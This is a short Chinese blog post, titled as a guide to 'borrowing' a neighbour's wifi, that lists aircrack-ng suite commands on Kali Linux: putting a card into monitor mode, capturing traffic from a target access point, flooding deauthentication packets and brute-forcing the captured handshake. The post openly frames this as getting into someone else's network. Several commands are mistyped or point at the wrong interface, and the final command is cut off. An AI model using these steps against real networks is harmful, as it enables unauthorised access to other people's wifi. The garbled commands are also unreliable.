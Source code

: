 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>
2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>
3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>
4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>
5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>
6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress eth0
<pre>
7. ARP 发包：aireplay-ng -0 0 -a MacAddress eth0

8. 暴力破解：aircrack-ng outfile1.cap -w /